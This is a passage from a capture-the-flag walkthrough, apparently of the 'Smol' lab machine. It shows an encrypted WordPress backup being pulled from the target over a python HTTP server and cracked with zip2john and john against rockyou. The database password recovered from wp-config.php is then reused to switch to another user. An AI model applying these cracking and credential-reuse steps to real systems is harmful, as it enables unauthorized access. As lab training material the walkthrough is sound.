 We can download this archive by starting an **HTTP** server using `python` on the target:

```console
gege@smol:~$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

And downloading it from our machine using `wget`:

```console
$ wget http://smol.thm:8080/wordpress.old.zip
```

Unfortunately, when attempting to extract the archive, we find that it is encrypted and prompts for a password:

```console
$ unzip wordpress.old.zip
Archive:  wordpress.old.zip
[wordpress.old.zip] wordpress.old/wp-config.php password:
```

While we don't have the password for the archive, we can attempt to crack it. First, we use `zip2john` to create a hash that `john` can work with:

```console
$ zip2john wordpress.old.zip > archive_hash
```

Now, attempting to crack it, we find the password for the archive: `hero_gege@hotmail.com`.

```console
$ john archive_hash --wordlist=/usr/share/wordlists/rockyou.txt
...
hero_gege@hotmail.com (wordpress.old.zip)
...
```

Extracting the archive and inspecting the `wp-config.php` file, we discover different database credentials: `xavi:P@[REDACTED]i@`.

```console
$ cat wordpress.old/wp-config.php
...
/** Database username */
define( 'DB_USER', 'xavi' );

/** Database password */
define( 'DB_PASSWORD', 'P@[REDACTED]i@' );
...
```

Testing this password for the `xavi` user, we successfully switch to the user using `su`: 

```console
gege@smol:~$ su - xavi
Password:
xavi@smol:~$ id
uid=1001(xavi) gid=1001(xavi) groups=1001(xavi),1005(internal)
```
